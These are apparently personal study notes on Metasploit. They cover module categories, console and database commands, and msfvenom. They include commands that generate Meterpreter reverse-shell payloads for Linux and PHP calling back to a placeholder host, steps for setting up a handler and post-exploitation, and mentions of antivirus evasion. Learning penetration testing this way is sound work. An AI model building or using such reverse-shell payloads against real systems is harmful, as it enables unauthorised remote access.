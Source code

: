 
Start: msfconsol 
generate custom payloads: msfvenom

#### Modules and categories:
- Auxiliary: Support modules such as scanners and fuzzers
- Encoders: Encode exploits or payloads to hide from antivirus 
- Evasion: Modules that try to evade antivirus -> More advances way then encoding
- Exploits: Different exploits for different targets.
- NOPs: Do nothing, used to create buffers 
- Payloads: Code that will run on the target:

Different types of payloads:
![[Pasted image 20241117205823.png]]


Useful console commands:
```
- use:
- back: 
- seach:
- info: 
- set:
- unset:
- setg:
- unsetg:
- show options
```

Remember when an exploit is chosen, we can use the default payload OR use `show payloads` to look for other options. 


#### Workspaces:
In larger pentests, we can organize attacks and enumerations in a database while working. 

```
systemctl start postgresql
msfdb init 


---- Then launch msfconsole ------
Relevant commands: 

db_status: Confimes the db is running
workspace: lists workspaces 
db_nmap: Do a nmap scan, and save the findings in the db 
hosts:
services: 
```


### msfvenom:

Generate custom and encoded payloads 

```
msfvenom -l payloads: lists all payloads

### Examples: ###

Generate meterpreter rev shell for linux:
`msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f elf > rev_shell.elf`

Generate meterpreter rev shell with php:
`msfvenom -p php/meterpreter_reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f raw > rev_shell.php`
```


Based on the payload we generate with msfvenom, we need to pick a handler (code that runs on our machine) that fits our chosen payload.  We often use `exploit/multi/handler`, but we need to customize its payload to fit the payload we have on the target:  

Example: For the .elf reverse shell, we used the standard multi handler with: `linux/x86/meterpreter/reverse_tcp` as the payload for the handler. 

When we get a connection on the target, we have to do post exploitation. 

`seach type:post platfrom:<target_platfrom> any_other_keyword`

Then in the same console as we have the reverse shell, background the session, and use the post exploitation selected. In the post exploitation, we specify the session we want to post-exploit. 

```
Usefull:
backgroud: background the current session
session: lists the current sessions
```